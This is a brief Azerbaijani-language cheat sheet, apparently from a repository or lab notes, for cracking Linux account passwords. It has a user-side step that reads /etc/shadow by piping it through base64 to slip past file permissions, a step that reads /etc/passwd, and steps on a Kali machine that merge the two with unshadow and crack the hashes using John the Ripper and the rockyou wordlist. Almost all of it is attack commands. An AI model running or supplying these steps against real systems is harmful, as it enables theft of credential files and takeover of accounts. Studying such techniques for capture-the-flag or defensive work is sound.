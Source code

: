 ## Hashlanmish hesablarin parollarini tapilmasi 
## ilk olaraq  ## (user hissesi)
    /usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
## daha sonra 
    cat /etc/passwd
## (kali hissesi)

## daha sonra atack masin oz kalimize kecib bir tmp folderi kimi foldere kecirik  
     unshadow passwd{file} shadow{file}  | tee hash

## daha sonra bunu qeyd edib tee ile hash adinda iksini birlesdirib bir fayl yaradiriq 
## ve  asaqdaki emri verib parolu tapiriq
    sudo john --wordlist=/usr/share/wordlists/rockyou.txt  {hash}
